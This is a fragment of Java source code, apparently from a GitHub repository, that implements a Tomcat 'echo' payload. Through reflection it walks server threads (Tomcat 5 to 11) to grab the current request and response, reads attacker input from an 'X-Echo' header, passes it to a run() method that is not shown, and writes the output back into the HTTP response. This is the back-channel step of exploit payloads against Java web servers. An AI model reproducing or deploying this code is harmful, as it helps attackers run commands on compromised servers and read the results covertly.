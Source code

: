 ```java
                // Tomcat9 http-nio-8080-ClientPoller-0 <-> org.apache.tomcat.util.net.NioEndpoint$Poller
                // Tomcat10 http-nio-8080-Poller <-> org.apache.tomcat.util.net.NioEndpoint$Poller
                // Tomcat11 http-nio-8080-Poller <-> org.apache.tomcat.util.net.NioEndpoint$Poller
                String threadName = thread.getName();
                if ((threadName.contains("Poller") || threadName.contains("Acceptor"))
                        && !threadName.contains("ajp")
                ) {
                    try {
                        requestGroupInfo = getFieldValue(getFieldValue(getFieldValue(target, "this$0"), "handler"), "global");
                    } catch (NoSuchFieldException ignored) {
                        continue;
                    }
                } else if (target.getClass().getName().contains("ThreadPool$ControlRunnable")) {
                    // Tomcat5 http-8080-Processor23 <-> org.apache.tomcat.util.threads.ThreadPool$ControlRunnable
                    try {
                        Object toRun = getFieldValue(target, "toRun");
                        if (toRun != null) {
                            requestGroupInfo = getFieldValue(getFieldValue(getFieldValue(toRun, "endpoint"), "handler"), "global");
                        }
                    } catch (NoSuchFieldException e) {
                        continue;
                    }
                }
                if (requestGroupInfo == null) {
                    continue;
                }
                List<?> processors = (List<?>) getFieldValue(requestGroupInfo, "processors");
                for (Object processor : processors) {
                    // org.apache.coyote.Request
                    Object coyoteRequest = getFieldValue(processor, "req");
                    // org.apache.catalina.connector.Request
                    Object request = invokeMethod(coyoteRequest, "getNote", new Class[]{Integer.TYPE}, new Object[]{1});
                    // org.apache.catalina.connector.Response
                    Object response = invokeMethod(request, "getResponse", null, null);
                    String data = getDataFromRequest(request);
                    if (data != null && !data.isEmpty()) {
                        PrintWriter writer = (PrintWriter) invokeMethod(response, "getWriter", null, null);
                        try {
                            writer.write(run(data));
                        } catch (Throwable e) {
                            e.printStackTrace(writer);
                        }
                        writer.flush();
                        writer.close();
                        return;
                    }
                }
            }
        } catch (Throwable ignored) {
        }
    }

    private String getDataFromRequest(Object request) throws Exception {
        return (String) invokeMethod(request, "getHeader", new Class[]{String.class}, new Object[]{"X-Echo"});
    }

```